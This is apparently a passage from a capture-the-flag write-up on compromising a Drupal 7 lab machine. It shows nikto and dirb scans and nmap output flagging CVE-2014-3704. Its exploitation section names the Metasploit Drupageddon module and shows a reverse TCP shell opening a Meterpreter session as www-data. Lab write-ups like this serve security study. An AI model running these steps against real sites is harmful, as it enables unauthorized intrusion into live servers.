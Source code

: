 http://192.168.0.119

![alt text]({{ site.baseurl }}/assets/images/dc1/1.png)

Drupal Verion 7

`nikto -h 192.168.0.119`

`dirb http://192.168.0.119`


 
## Exploitation


Looking over the nmap scan we see that the Drupal version is vulnerable to the following exploit

{% highlight bash %}
|   VULNERABLE:
|   Drupal - pre Auth SQL Injection Vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-3704
|         The expandArguments function in the database abstraction API in
|         Drupal core 7.x before 7.32 does not properly construct prepared
|         statements, which allows remote attackers to conduct SQL injection
|         attacks via an array containing crafted keys.
|           
|     Disclosure date: 2014-10-15
|     References:
|       https://www.sektioneins.de/en/advisories/advisory-012014-drupal-pre-auth-sql-injection-vulnerability.html
|       http://www.securityfocus.com/bid/70595
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704
|_      https://www.drupal.org/SA-CORE-2014-005
{% endhighlight %}


Metasploit was fired up and to use drupageddon exploit

{% highlight bash %}
multi/http/drupal_drupageddon

[*] Started reverse TCP handler on 192.168.0.83:4444 
[*] Sending stage (38247 bytes) to 192.168.0.119
[*] Meterpreter session 1 opened (192.168.0.83:4444 -> 192.168.0.119:59857) at 2019-05-09 13:04:08 +0100

meterpreter > getuid
Server username: www-data (33)
{% endhighlight %}
